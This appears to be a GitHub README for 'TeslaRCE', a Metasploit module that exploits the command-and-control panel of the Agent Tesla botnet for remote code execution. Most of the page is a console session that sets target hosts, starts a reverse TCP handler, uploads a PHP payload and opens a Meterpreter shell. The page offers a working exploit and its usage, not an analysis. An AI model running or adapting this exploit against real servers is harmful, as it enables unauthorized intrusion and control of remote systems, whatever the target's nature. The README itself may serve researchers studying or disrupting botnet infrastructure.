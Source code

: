 # TeslaRCE
Tesla Agent— botnet C&amp;C RCE Exploitation

***WARNING*** This will only work if hosting provider allows the PHP `exec` function

```
msf5 exploit(agent_tesla_rce) > set vhost example.com
vhost => example.com
msf5 exploit(agent_tesla_rce) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf5 exploit(agent_tesla_rce) > run

[*] Started reverse TCP handler on 0.0.0.0:4444 
[+] Payload uploaded as .rzTJ.php
[*] Sending stage (38247 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (0.0.0.0:4444 -> 2.2.2.2:34550) at 2019-08-13 22:45:10 +0200
[+] Payload successfully triggered !

meterpreter > 
```
